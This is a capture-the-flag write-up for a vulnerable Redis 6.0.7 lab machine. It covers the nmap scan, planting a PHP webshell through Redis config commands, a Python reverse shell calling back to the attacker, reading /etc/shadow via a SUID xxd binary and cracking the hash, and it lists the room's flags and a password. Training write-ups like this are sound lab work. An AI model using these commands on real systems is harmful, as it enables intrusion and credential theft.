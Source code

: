 <h2>Room description: ‘Hack into a vulnerable database server with an in-memory data-structure in this semi-guided challenge!’</h2>

Recon and Enumeration 

<h>Question 1: Scan the machine, how many ports are open?</h>

<h2>Recon and Enumeration</h2>

<h3>PortScanning</h3>

command:```sudo namp -sV -sC -P0 -p- <$iP>```

```
──(root㉿d4rk5id3)-[~]
└─# nmap -sC -sV -Pn -oN nmap 10.10.244.169
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-10 16:30 WAT
Nmap scan report for 10.10.244.169
Host is up (0.34s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.90 seconds
                                                                                                                                                                                            
┌──(root㉿d4rk5id3)-[~]
└─# nmap -sC -sV -Pn -p 6379,80 10.10.244.169
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-10 16:30 WAT
Nmap scan report for 10.10.244.169
Host is up (0.15s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
6379/tcp open  redis   Redis key-value store 6.0.7

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.64 seconds
                                                                   
```
from the scan result above, it can be seen that there are only two ports open on the target system. port (80) which runs Apache HTTP Server, and Port (6379) which runs a DBMS service called redis.

![image](./res/nmap.png)

Answering the Questions that were asked

_#What is the database management system running on?_

ans: redis

_#What port is the database management system running on?_

ans: 6379

_#What is the version of management system installed on the server?_

ans: 6.0.7

_#Compromise the machine and locate user.txt_

1. so i ran a directory bruteforce on the server but found nothing interesting so i had to lookup redis 6.0.7 dbms service on google 

it appears that we can check out the service by using the redis-cli command or by simply using netcat for connecting to the redis service.

from our Recon, we know that it is running a web server which Commonly stores it’s html data on /var/www/html path.

command: ```redis-cli <target_ip>```

![image](./res/redis_cli.png)

Next, we'll specify the dbfilename with a filename of our selection. In this instance, we're designating it as "shell.php." Since it carries the ".php" extension, it's clear that we intend to insert PHP code into this file for execution.

command: ```config set dir /var/www/html```</br>
```config set dbfilename shell.php```</br>
```set test "<?php system($_GET['cmd']) ?>" ```</br>
```save```

with our RCE script ready we can hesd over to the path on our server
```http://<machine_ip>/shell.php?cmd=id```

![image](./res/id.png)

Now we have our webshell, It's time to establish a reverse shell connection to the target machine.

first of all we must set up a netcat listener 
![image](./res/nc.png)

run this reverse shell using our webshell

```http://<machine_ip>/shell.php?cmd=python -c ‘import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“<local_ip>”,3030));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(“/bin/sh”)’```

now we have our reverse shell.
![image](./res/rev.png)

lets upgrade to get a better and  stable shell

```python -c 'import pty;pty.spawn("/bin/bash")';```




Going over to the home directory we list all files and folder, that got our first flag.

![image](./res/flag.png)

flag: ``` thm{red1s_rce_w1thout_credent1als} ```</br>


3. What is the local user account password?
After running the `sudo -l` command, i found out that our user lacked sudo permissions. To further investigate, I used the following command to check for services with the SUID bit set:


command:```find / -perm -u=s -type f 2>/dev/null```

 *   / instructs the search to cover the entire file system.
 *   -perm is used to identify files with particular permissions.
 *   u=s specifies that we are looking for files where any  permission bits are set to 's'.
 *  -type f restricts the search to files only.
 *   2>/dev/null is added to suppress any error messages.

![image](./res/bin.png)

after some few seconds we can see our result /usr/bin/xxd looks vulnerable so let's check out GTFObins.
  from my discovery i can see that the with this binary, we can only read files as root.

  Excellent! Now Let’s try this to read the /etc/shadow file to find the users password. 
 command: ```/usr/bin/xxd /etc/shadow | xxd -r```</br>

![image](./res/shadow.png)

 now we have successfully read the /etc/shadow file we can see that a user Vianka has a password hash on the machine. lets save that hash to a txt file and try cracking it with john.</br>
 command:```john hash.txt --wordlist=<path_to_Word_list>rockyou.txt```
![image](./res/pass.png)
password ```beautiful1```</br>

 we now have our password for the user vianka. lets attempts to login

 command: ```su vianka```</br>

 Let’s check what sudo privileges we have with sudo -l

 ![image](./res/su.png)

 Great news! We now possess sudo privileges. To elevate our privileges, I'll execute the command `sudo su` and retrieve the `root.txt` file!</br>
 ![image](./res/root.png)


Root Flag:```thm{xxd_pr1v_escalat1on}```

That will be all for today
<br> <br>
[Back To Home](../../index.md)



































